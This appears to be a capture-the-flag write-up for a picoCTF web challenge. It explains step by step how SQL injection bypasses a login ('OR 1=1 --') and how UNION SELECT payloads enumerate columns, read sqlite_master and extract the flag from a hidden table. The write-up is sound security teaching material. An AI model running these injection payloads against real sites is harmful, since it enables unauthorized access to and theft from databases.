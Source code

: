 # Description

Can you find the flag on this website.

Try to find the flag here.

# Solution

Just starting out I put "admin" for user, and "admin" for password.

![image](https://user-images.githubusercontent.com/91398631/232144615-e91e0978-637d-4514-b6a3-7c3856fc7ed8.png)

This is the SQL Query:

```SELECT id FROM users WHERE password = 'admin' AND username = 'admin'```

It shows the password first so that is where you want to put the SQL Injection. Also you can notice it is single qoutes and not double qoutes so that will also be use in createing a SQL Injection Query.

Also note there are common comment charaters for SQL injection, two of the most common ones are "#" and "--".

Injection payload: ``` ' OR 1=1 -- ```

```SELECT id FROM users WHERE password = '  ' OR 1=1 -- ' AND username = 'does not matter'```

You can see the first single qoute closes the password string and the OR 1=1 is always true. Additionall the comment "--" makes the rest of the code irrelevant. 

![image](https://user-images.githubusercontent.com/91398631/232145799-b537858c-afd1-4104-b629-a355406026a4.png)

Now you see a database with another place input which probably means more SQL Injection needed.

This query showed that there are three different columns that need to be worked with.

```' UNION SELECT null,null,null;--```

Before Query:

![image](https://user-images.githubusercontent.com/91398631/232148441-0672fc3b-95ed-4d37-939c-f17924cfa78c.png)

After Query:

![image](https://user-images.githubusercontent.com/91398631/232148497-32b4d5a5-365e-4e90-b483-e75fb5f80de2.png)

This query assumes the use of SQLite as sqlite_master is an internal table in all SQLite databases.

```' UNION SELECT sql,null,null FROM sqlite_master;--```

![image](https://user-images.githubusercontent.com/91398631/232148849-eb3aa138-fa52-415d-959d-5c521200b8f6.png)

From this output it can be seen that the flag is in more_table so I changed one of the attributes to be flag and got it from more_table which resulted in the flag.

```' UNION SELECT null,null,flag FROM more_table;--```

You can put it in any orientation you want, for instance this query also works:

```' UNION SELECT flag,null,null FROM more_table;--```

![image](https://user-images.githubusercontent.com/91398631/232149226-f5d4cc39-6473-4354-8312-feb58a54f56b.png)

Flag: ```picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0...}```
